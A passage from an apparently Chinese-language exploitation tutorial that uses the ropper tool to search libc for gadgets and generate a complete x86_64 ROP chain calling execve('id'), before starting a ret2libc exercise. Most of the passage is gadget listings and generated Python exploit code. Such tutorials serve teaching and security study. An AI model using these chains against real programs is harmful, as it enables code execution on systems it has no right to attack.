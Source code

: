   
该工具已收集与我们要查找的指令相关的所有小工具（pop rdi）。我们还可以使搜索范围更加广泛。  
  
```
(libc.so.6/ELF/x86_64)> search mov [rbx + 0x40],%[INFO] Searching for gadgets: mov [rbx + 0x40],%[INFO] File: /usr/lib/x86_64-linux-gnu/libc.so.60x00000000000a3bcf: mov dword ptr [rbx + 0x40], eax; and byte ptr [rbx + 0x50], 0xfe; mov qword ptr [rbx], rdi; mov dword ptr [rbx + 0x30], eax; call rcx; 0x00000000001161f5: mov dword ptr [rbx + 0x40], eax; mov eax, 1; add rsp, 8; pop rbx; pop rbp; ret; 0x000000000003fa47: mov dword ptr [rbx + 0x40], esi; pop rbx; ret; 0x000000000003fa28: mov dword ptr [rbx + 0x40], esi; xor eax, eax; pop rbx; ret; 0x000000000008ba03: mov dword ptr [rbx + 0x40], esp; mov dword ptr [rbx], eax; pop rbx; pop rbp; pop r12; ret; 0x000000000008be8e: mov dword ptr [rbx + 0x40], esp; pop rbx; pop rbp; pop r12; ret; 0x000000000008ba02: mov qword ptr [rbx + 0x40], r12; mov dword ptr [rbx], eax; pop rbx; pop rbp; pop r12; ret; 0x000000000008be8d: mov qword ptr [rbx + 0x40], r12; pop rbx; pop rbp; pop r12; ret; 0x00000000000a3bce: mov qword ptr [rbx + 0x40], r8; and byte ptr [rbx + 0x50], 0xfe; mov qword ptr [rbx], rdi; mov dword ptr [rbx + 0x30], eax; call rcx; 0x00000000001161f4: mov qword ptr [rbx + 0x40], rax; mov eax, 1; add rsp, 8; pop rbx; pop rbp; ret;
```  
  
  
如您所见，我们让该工具搜索任何由寄存器指向的内存移动指令rbx+40，而不管操作数是什么。这非常有用，因为并非所有情况下，我们都能找到能够完全按照我们期望执行的操作。另一种方法是间接使用不同的指令来实现相同的结果。该工具还提供了一个很棒的功能，可以为我们构建完全可用的 ROP 链。  
  
```
(libc.so.6/ELF/x86_64)> ropchain execve cmd=id[INFO] ROPchain Generator for syscall execve:[INFO] write command into data sectionrax 0xbrdi address to cmdrsi address to nullrdx address to null[INFO] Try to create chain which fills registers without delete content of previous filled registers[*] Try permuation 1 / 24[INFO] [INFO] Look for syscall gadget[INFO] syscall gadget found[INFO] generating rop chain#!/usr/bin/env python# Generated by ropper ropchain generator #fromstruct import packp = lambda x : pack('Q', x)IMAGE_BASE_0 = 0x0000000000000000# 2f1f84e0f4df64e0eb1829fabd8720136456dc4efce9962cb1188f8d436e30b0rebase_0 = lambda x : p(x + IMAGE_BASE_0)rop = ''rop += rebase_0(0x000000000003c714) # 0x000000000003c714: pop r13; ret; rop += '//////id'rop += rebase_0(0x000000000002aa5f) # 0x000000000002aa5f: pop rbx; ret; rop += rebase_0(0x00000000001e7000)rop += rebase_0(0x000000000005e961) # 0x000000000005e961: mov qword ptr [rbx], r13; pop rbx; pop rbp; pop r12; pop r13; ret; rop += p(0xdeadbeefdeadbeef)rop += p(0xdeadbeefdeadbeef)rop += p(0xdeadbeefdeadbeef)rop += p(0xdeadbeefdeadbeef)rop += rebase_0(0x000000000003c714) # 0x000000000003c714: pop r13; ret; rop += p(0x0000000000000000)rop += rebase_0(0x000000000002aa5f) # 0x000000000002aa5f: pop rbx; ret; rop += rebase_0(0x00000000001e7008)rop += rebase_0(0x000000000005e961) # 0x000000000005e961: mov qword ptr [rbx], r13; pop rbx; pop rbp; pop r12; pop r13; ret; rop += p(0xdeadbeefdeadbeef)rop += p(0xdeadbeefdeadbeef)rop += p(0xdeadbeefdeadbeef)rop += p(0xdeadbeefdeadbeef)rop += rebase_0(0x000000000002a205) # 0x000000000002a205: pop rdi; ret; rop += rebase_0(0x00000000001e7000)rop += rebase_0(0x000000000002bb39) # 0x000000000002bb39: pop rsi; ret; rop += rebase_0(0x00000000001e7008)rop += rebase_0(0x000000000010d37d) # 0x000000000010d37d: pop rdx; ret; rop += rebase_0(0x00000000001e7008)rop += rebase_0(0x0000000000043067) # 0x0000000000043067: pop rax; ret; rop += p(0x000000000000003b)rop += rebase_0(0x000000000008ed72) # 0x000000000008ed72: syscall; ret; print(rop)[INFO] rop chain generated!
```  
  
  
如您所见，该工具为我们创建了完整的 ROP 链，以便我们执行系统调用 ( execve("id"))。我们需要做的就是在运行时将变量设置IMAGE_BASE_0为 libc 的基址。遗憾的是，这非常有限，该工具无法为我们需要的所有内容创建 ROP 链，而且由于不同程序和不同 bug 的情况各不相同，因此它也不是完全可靠的。  
  
返回 Libc（ret2libc）  
  
让我们练习一下本博客中介绍的第一个示例，这次我们不会使用该-zexecstack选项来编译它。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeYk9pbibPZ7GcMFkubQZibXrCPVibPM7rvwsfFJG94IEuWJ4mxIueZ5gMiccUzkBGShXue5PCzMIN0wA/640?wx_fmt=png&from=appmsg "")  
  
